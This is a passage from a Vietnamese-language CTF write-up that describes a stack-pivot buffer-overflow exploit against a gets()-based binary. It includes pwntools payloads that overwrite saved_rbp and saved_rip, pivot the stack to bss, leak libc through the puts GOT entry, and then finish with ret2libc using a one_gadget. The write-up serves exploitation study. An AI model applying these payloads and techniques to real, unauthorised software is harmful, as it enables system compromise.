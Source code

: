 ```c
input()
p.sendline(pl3)
```

- vì vậy ta sẽ suy ngẫm lại , ở đây vì hàm **gets** sẽ được nhập không giới hạn nên ý tưởng của ta là sẽ setup tất cả các **saved_rbp** và **saved_rbp** trong 1 lần luôn :

- ta sẽ quyết định ghi vào exe.got.puts+0x50 trước (đây sẽ là nơi sau khi leak xong thì thằng puts nó sẽ return về địa chỉ này) :

```c
pl1 = flat(
        'a'*0x50,
        exe.got.puts+0x50+0x50,
        gets_gadget,
        )
```

-  từ đây ta phải setup các saved_rbp tiếp theo , ta sẽ tính toán offset đến **saved_rbp** tiếp theo và **saved_rbp** tiếp theo sẽ là **got@puts+0x50** và saved_rip tiếp theo là **puts@gadget** 
-  sau lệnh puts thì nó sẽ ret về **got@puts+0x50** và lúc này ta đã leak xong nên ta sẽ cần ret về main , tuy nhiên thì stack nó sẽ rất thấp và dẫn đến lỗi , vì vậy ta cần setup **save_rbp** đến 1 địa chỉ bss cao hơn và **saved_rip** đến hàm main , nó sẽ trông như sau :

```python
pl1 = flat(
        'a'*0x50,
        exe.got.puts+0x50+0x50,
        gets_gadget,
        )

p.sendlineafter(b'string\n',pl1)

pl2 = flat(
        bss2+0x10,
        leave_ret,
        'a'*0x40,
        bss2,
        leave_ret,
        'a'*(0x390-16-0x48),
        exe.got.puts+0x50,
        puts_gadget,
        0,
        exe.sym.main
        )
input()
p.sendline(pl2)
```

- ta cần debug nhiều lần để tìm ra những offset đến **saved_rbp** và **saved_rip** tiếp theo

- cuối cùng sau khi leak xong thì đơn giản là **ret2libc** , ở đây mình dùng **og**

exp : 
